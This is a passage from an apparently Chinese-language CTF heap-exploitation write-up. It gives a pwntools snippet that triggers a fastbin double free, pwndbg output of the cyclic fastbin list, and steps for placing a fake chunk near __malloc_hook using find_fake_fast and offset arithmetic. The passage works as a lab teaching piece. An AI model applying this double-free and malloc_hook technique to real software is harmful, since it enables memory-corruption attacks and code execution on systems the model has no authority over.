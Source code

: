```python

    # b->a->b->a->...
    search_word('\x00')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('y')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
```

效果如下

```shell
pwndbg> fastbins 
fastbins
0x20: 0x0
0x30: 0x1d19320 ◂— 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x1d191b0 —▸ 0x1d19010 —▸ 0x1d191b0 ◂— 0x1d19010
0x80: 0x0
```

#### 分配 malloc_hook 附近chunk

此时，fastbin 的链表为 b->a->b->a->…，则我们可以在申请第一个相同大小的 chunk 时，设置 b 的 fd 为 malloc_hook 附近处的 chunk `0x7fd798586aed`（这里是举一个例子，代码中需使用相对地址）。

```shell
pwndbg> print (void*)&main_arena 
$1 = (void *) 0x7fd798586b20 <main_arena>
pwndbg> x/8gx 0x7fd798586b20-16
0x7fd798586b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7fd798586b20 <main_arena>:	0x0000000000000000	0x0000000000bce130
0x7fd798586b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7fd798586b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
pwndbg> find_fake_fast 0x7fd798586b10 0x7f
FAKE CHUNKS
0x7fd798586aed PREV_INUSE IS_MMAPED NON_MAIN_ARENA {
  prev_size = 15535264025435701248, 
  size = 127, 
  fd = 0xd798247e20000000, 
  bk = 0xd798247a0000007f, 
  fd_nextsize = 0x7f, 
  bk_nextsize = 0x0
}
pwndbg> print /x 0x7fd798586b10-0x7fd798586aed
$2 = 0x23
pwndbg> print /x 0x7fd798586b20-0x7fd798586aed
$3 = 0x33

```
